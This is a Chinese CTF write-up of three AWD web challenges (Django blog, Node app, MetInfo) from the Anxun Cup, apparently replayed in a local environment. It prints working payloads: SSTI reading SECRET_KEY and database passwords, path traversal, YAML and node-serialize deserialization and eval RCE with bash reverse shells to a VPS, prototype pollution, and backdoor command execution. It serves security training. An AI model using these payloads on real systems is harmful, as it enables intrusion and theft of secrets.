前言
上周末去成都参加了安洵杯线下，参加awd机会比较少，经验不够导致很多Web的洞都来不及看。回来以后本地环境搭了一下三道题重新做了一遍，还是学到不少的。最后感谢成都信息工程大学的师傅们用心出的题。
web1-pyblog
复现环境搭建：
安装django，postgresql，markdown
1 | pip install django |
配置postgresql：
1 | sudo -u postgres psql |
打开靶机
robots.txt

漏洞1
访问/blog/hello/
报错信息中看到了Hello路由的代码：

1 | template = 'Hello {user}, This is your input: ' + request.GET['input'] |
输入input参数后渲染到template中，说明存在ssti
但是由于是django，不能flask那样自主的调用__subclasses__来读文件或执行命令，只能读取一些配置信息，参考：https://www.leavesongs.com/PENETRATION/code-breaking-2018-python-sandbox.html
比如读取secret_key：
1 | ?input={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY} |

或者读取后台数据库的登陆密码：
1 | ?input={user.user_permissions.model._meta.app_config.module.admin.settings.DATABASES} |
拿到用户名密码blog/blog123456后，我们可以登陆后台，不过后台没找到什么可以用的信息…
漏洞2
/blog/api/downloadarticle
1 | def DownloadArticle(request): |
存在任意文件读取，payload：
1 | /blog/api/downloadarticle/?path=../../../../../../../../../../flag |

漏洞3
/blog/api/uploadarticle/
1 | def UploadArticle(request): |
存在yaml反序列化：article = yaml.load(file(os.path.join(BASE_DIR, 'static', 'upload', obj.name)))
直接将我们上传的文件内容作为参数传入yaml.load()反序列化，参考：Python PyYAML反序列化漏洞
写入一个payload：
1 | !!python/object/apply:os.system ['bash -c "bash -i >& /dev/tcp/vps/8888 0>&1"'] |
因为没有回显，所以还是采用弹shell的形式
payload：
1 | POST /blog/api/uploadarticle/ HTTP/1.1 |

web2-node
打开靶机
开始黑盒测试，访问robots.txt，直接得到flag

拿到ssh后，开始白盒审计
漏洞1
/index.js
1 | app.get('/robots.txt', function(req, res) { |
也就是我们黑盒拿到的白给文件读取，没啥好说的
漏洞2
/routes/index.js
1 | router.get('/response', function(req, res) { |
存在rce：var resp=eval(req.query.name)
要求是参数name必须包含exit
payload：
1 | /response?name=global.process.mainModule.require('child_process').execSync('whoami').toString()//exit |
但是一开始是没有得到回显，比赛时候也很奇怪，本地明明可以得到回显：


比赛后本地搭了一下环境，payload打进去，出现了报错信息：

原来是一次连接请求，服务器只能向客户端发送一次信息，代码中前面部分已经执行了：res.send('error');
所以后面rce的结果是没办法再返回给我们，但是命令还是执行了，于是考虑弹shell
payload：
1 | response?name=require('child_process').exec('bash -c "bash -i >& /dev/tcp/vps/8888 0>&1"')//exit |

没有回显，但是vps监听端口8888上已经弹到了shell

漏洞3
/routes/news.js
1 | router.get('/news', function(req, res) { |
存在很明显的反序列化：resp = serialize.unserialize(resp);
参数data同样要求包含flag
先本地测试一下反序列化rce：
1 | > var serialize = require('node-serialize'); |
在序列化的字符串中函数体后面加上括号 () ，之后传入 unserialize() 函数，就能成功执行
但是同样没有回显，所以我们还是用反弹shell的形式，payload：
1 | /news?data={"rce":"_$$ND_FUNC$$_function%20(){console.log(require('child_process').execSync('bash%20-c%20\"bash%20-i%20>%26%20/dev/tcp/vps/8888%200>%261\"%20||%20cat%20/flag').toString());}()"} |
漏洞4
/routes/managers.js
1 | var tmp = []; |
发现最后有执行读取文件，并将内容回显到客户端：
1 | let resp = fs.readFileSync(opath, 'utf8'); |
追溯一下参数opath：paths.opath? paths.opath : buffer
如果paths.opath 不为空则为paths.opath的值，否则为buffer
而一开头定义的paths为空，而buffer定义在：
1 | buffer = tmp[reqbody.tmp]['opath'].replace(/f|l|a|g/g,''); |
可以看到最后是会把flag关键字替换为空，我们要想读取flag文件，就必须让paths.opath不为空。这就很容易联想到原型链污染
看看哪里可以触发原型链污染：
1 | tmp[reqbody.tmp]['opath'] = reqbody.opath; |
这里存在数组的操作，并且reqbody.tmp和reqbody.opath我们都可以通过get传入进行控制，如果我们设置：
1 | var reqbody.tmp = "__proto__"; |
就可以成功污染Object原型，使paths.opath = "/flag"
那么最后就只剩下一处过滤：
1 | let url = req.originalUrl.replace('/manager?',''); |
这里利用了qs模块来处理url存为对象，switch默认为false，并且配置allowPrototypes: false。我们直接传递参数switch无法置为true，绕过方法参考：https://snyk.io/vuln/npm:qs:20170213
当qs版本小于6.3时，可以通过]=switch绕过
测试如下：
1 | > qs.parse("]=switch", { allowPrototypes: false }) |
所以最后的payload：
1 | /manager?]=switch&opath=/flag&tmp=__proto__ |

web3-metinfo
打开靶机，是一个米拓7.0.0的网站

登陆后台，尝试弱密码admin/admin，登陆成功，flag就在admin/#/home下

拿到ssh后，把源码放进d盾扫一下

有两个直接的后门，还有一个参数拼接执行的eval，下面逐一分析
漏洞1
/config.php
1 |
|
送分的洞
漏洞2
/app/system/entrance.php
1 | //just a test |
这是一个入口文件，在index.php中我们就可以看到
1 | require_once './app/system/entrance.php'; |
所以，直接通过：
1 | /index.php?iamD0g3=1&isoon-test=cat /flag; |
即可执行

漏洞3
/app/app/crack/admin/index.class.php
1 | class index extends admin { //继承后台基类。类名称要与文件名一致 |
在doindex方法中$_M['form']['1']参数拼接到eval中执行
首先看看参数是如何传递的：
/app/system/include/class/common.class.php
1 | /** |
所以我们直接通过get传参1即可控制$_M['form']['1']
再看看是怎么进入这个路由，在/admin/index.php可以找到路由参数：
1 | if(@$_GET['m'])$M_MODULE=$_GET['m']; |
分别是m，n，c，a
然后跟进/app/system/entrance.php
1 | define ('PATH_APP', PATH_WEB."app/"); |
如果在/app/app存在M_NAME，即n参数，则定义M_TYPE=app
所以我们只需要让n参数为crack即可
payload：
1 | /admin/index.php?n=crack&1=phpinfo(); |

然后要注意引号会被daddslashes的转义处理，传参可以用chr()进行拼接，读取flag：
1 | /admin/index.php?n=crack&1=$a=cat.chr(32).chr(47).flag;system($a); |

不过这个洞需要登陆后台才能执行，主办方要求不能改后台密码可能也是因为这个原因
漏洞4
这个洞是全局搜索file_get_contents发现的
/app/system/search/web/search.class.php
1 | public function dosearch() |
任意文件读取
payload：
1 | /search/index.php?searchword=/flag |
